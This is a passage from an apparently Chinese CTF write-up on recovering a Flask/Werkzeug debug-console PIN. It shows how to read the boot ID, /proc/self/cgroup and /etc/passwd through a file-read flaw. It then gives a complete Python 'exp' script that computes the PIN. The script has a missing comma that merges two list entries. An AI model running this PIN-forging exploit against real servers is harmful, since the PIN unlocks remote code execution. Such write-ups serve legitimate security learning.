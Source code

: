 结果

```
d0bb4e23-acae-4f09-a9a9-e13f710e25fa
```

然后根据上面的文章, 读取 `/proc/self/cgroup` 显示 `0::/`, 也就是没有 id 值, 所以不用拼接, 直接用上面的 boot id 就行

剩下的 username 可以通过读取 `/etc/passwd` 来猜一下, 一般都是 `root` 或者最底下的用户 `app`, 多试几个就行

最后随便填一个 url, 比如 `https://exp10it.cn/xxx` 就能在报错页面看到 flask 的路径

exp (注意新版本 flask 计算 pin code 时用的是 sha1, 旧版本才是 md5)

```python
import hashlib
from itertools import chain
probably_public_bits = [
    'app'# username
    'flask.app',# modname
    'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/usr/local/lib/python3.9/site-packages/flask/app.py' # getattr(mod, '__file__', None),
]

private_bits = [
    '2485723391234',# str(uuid.getnode()),  /sys/class/net/ens33/address
    'd0bb4e23-acae-4f09-a9a9-e13f710e25fa'# get_machine_id(), /etc/machine-id
]

h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode("utf-8")
    h.update(bit)
h.update(b"cookiesalt")

cookie_name = f"__wzd{h.hexdigest()[:20]}"

# If we need to generate a pin we salt it a bit more so that we don't
# end up with the same value and generate out 9 digits
num = None
if num is None:
    h.update(b"pinsalt")
    num = f"{int(h.hexdigest(), 16):09d}"[:9]

# Format the pincode in groups of digits for easier remembering if
# we don't have a result yet.
rv = None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = "-".join(
                num[x : x + group_size].rjust(group_size, "0")
                for x in range(0, len(num), group_size)
            )
            break
    else:
        rv = num

print(rv)
```
